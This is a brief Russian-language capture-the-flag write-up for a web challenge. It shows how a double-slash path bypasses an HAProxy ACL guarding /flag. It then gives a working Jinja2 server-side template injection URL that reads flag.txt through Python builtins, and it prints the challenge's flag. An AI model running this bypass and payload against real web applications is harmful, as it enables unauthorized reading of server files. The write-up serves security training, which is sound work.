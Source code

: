 # Web3

Скачиваем архив, изучаем содержимое haproxy.cfg:

`acl restricted_page path_beg,url_dec -i /flag`

Понимаем, что regex явно кривой - обходим его с помощью **//flag**.

Формируем иньекцию для SSTI, засылаем уже готовый пейлоад в параметр `name`.

```
PoC
http://192.168.12.11:8001//flag?name={{%20get_flashed_messages.__globals__.__builtins__.open(%22flag.txt%22).read()%20}}
```

Отправляем запрос и получаем флаг: `nto{Ht1P_sM088Lin6_88Ti}`
